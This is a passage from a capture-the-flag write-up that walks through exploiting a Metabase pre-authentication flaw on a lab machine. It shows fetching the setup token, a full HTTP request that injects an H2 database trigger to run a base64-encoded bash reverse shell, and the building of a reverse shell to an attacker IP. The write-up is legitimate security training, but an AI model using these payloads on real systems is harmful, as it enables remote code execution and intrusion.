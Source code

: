Because there’s a “-“ in the key value, I’ll need to wrap it in double quotes:

```

oxdf@hacky$ curl data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'
249fa03d-fd94-4d5b-b94f-b4ebf3df681f

```

#### Generate Payload

The blog post uses this HTTP POST request to exploit:

```

POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}

```

I’ll need to update the `token`. There’s a command in the `db` key that is running `bash -c` with an `echo` of some base64-encoded data into `base64 -d` and then into `bash -i` (it’s using [brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) to replace spaces).

I’ll create a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in the same format:

```

oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

```
